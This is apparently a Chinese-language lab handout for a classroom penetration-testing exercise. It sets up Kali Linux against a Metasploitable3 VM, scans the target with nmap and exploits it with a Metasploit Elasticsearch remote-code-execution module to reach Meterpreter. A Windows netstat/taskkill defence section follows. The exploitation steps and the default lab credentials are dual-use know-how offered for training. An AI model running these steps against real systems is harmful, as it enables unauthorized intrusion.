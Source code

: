 # 攻防情境說明
![攻防情境說明](scenario.png)

- 攻擊機 Kali Linux  
  - root/toor
  - ksu/ksu202208
- 靶機 metasploitable3 ==> vagrant/vagrant

# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks

![A1.png](A1.png)

# 環境設定2:
- 檢視IP
  - Windows ==> ipconfig
  - Linux ==> ifconfig 
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路
![m3_2.png](m3_2.png)
- 兩台機器都可以ping 到對方 
![m3_3.png](m3_3.png)

# 攻防實戰(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4
![nmap1.png](nmap1.png)
- 步驟2:啟動metasploit== > msfconsole
![metasploit_1.png](metasploit_1.png)
- 步驟3:search elastic
![metasploit_2.png](metasploit_2.png)
```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce
![metasploit_3.png](metasploit_3.png)
- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options
![metasploit_4.png](metasploit_4.png)
- 步驟6:進行攻擊 ==> exploit 或者 run
![metasploit_5.png](metasploit_5.png)
- 步驟7:攻擊成功  
![metasploit_6.png](metasploit_6.png)
- 步驟8:進入到post-exploitation階段  ==> [Meterpreter](meterpreter.md)
![metasploit_7.png](metasploit_7.png)

# 攻防實戰(2)Windows防禦
- 網路連線偵測 ==> netstat
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
    
![netstat](netstat.JPG)

- 終結 惡意網路連線 ==> 小小抱怨 : 教科書及linux 都是用`process(行程)` 微軟硬是要新創`工作(Task)` 
  - `工作`管理員(`Task` Manager)
    - [Windows 10 開啟「 工作管理員 」的11種方法](https://walker-a.com/archives/3436) 
  - [tasklist](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist):顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
  - [taskkill](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill) 獵殺執行中的程式(結束一個或多個工作或處理序)
    - [微軟官方說明](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill)
    - taskkill /PID XXXX /F
      - /F 參數強制進程終止，這對於許多不想關閉的討厭任務很有用。 

## 更多Metasploitable3解題
- [Rapid7官方網站 rapid7/metasploitable3-win2k8](https://app.vagrantup.com/rapid7/boxes/metasploitable3-win2k8)
- [OVA下載點 metasploitable3-ub1404upgraded](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/)
- [漏洞說明Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
- 測試報告
  - [Metasploit walkthrough](https://zero-day.io/metasploitwalkthrough/)
  - [Metasploitable 3 Walkthrough - Getting System](https://two06.blogspot.com/2016/12/metasploitable-3-walkthrough.html)
  - [Attacking Metasploitable 3 (Windows) - Metasploit Minute](https://www.youtube.com/watch?v=4HOGfSQEYuE)
  - [Metasploitable 3 (Linux) Walkthrough: An Exploitation Guide](https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/)
  - Hacking Articles
    - [Manual Penetration Testing in Metasploitable 3](https://www.hackingarticles.in/manual-penetration-testing-metasploitable-3/)
    - [Exploitation of Metasploitable 3 using Glassfish Service](https://www.hackingarticles.in/exploitation-metasploitable-3-using-glassfish-service/)
    - [Penetration Testing in Metasploitable 3 with SMB and Tomcat](https://www.hackingarticles.in/penetration-testing-metasploitable-3-smb-tomcat/)
  - [Metasploitable 3 实战渗透测试](https://blog.csdn.net/weixin_51167520/article/details/114745286)


# 延伸學習
- [滲透測試](PT.md)
- [Kali linux 學習](Kali202304.md)
- [基本Windows技術](BasicWindows.md)
  - [Windows 指令(Windows Commands)](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands)
  - Windows/Linux常用網路指令
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
- 後續研讀
  - [Log4J 漏洞分析與Penetration Testing](Log4J.md)
  - 滲透測試專題 Hacking Articles
    - [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
    - [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
  - 更多紅藍攻防 see [滲透測試實戰](PT_LABs.md)
  - 準備要考OSCP等實戰證照
    - [rkhal101/Hack-the-Box-OSCP-Preparation](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation)
  - Red team 滲透測試靶機
    - [Hack The Box: Hacking Training For The Best](https://www.hackthebox.com/)
    - [TryHackMe | Cyber Security Training](https://tryhackme.com/)
    - [VulnHub| Vulnerable By Design](https://www.vulnhub.com/) 
  - Blue Team
    - [LetsDefend - Blue Team Training](https://www.letsdefend.io/) 


![Mimikatz](Mimikatz.png)
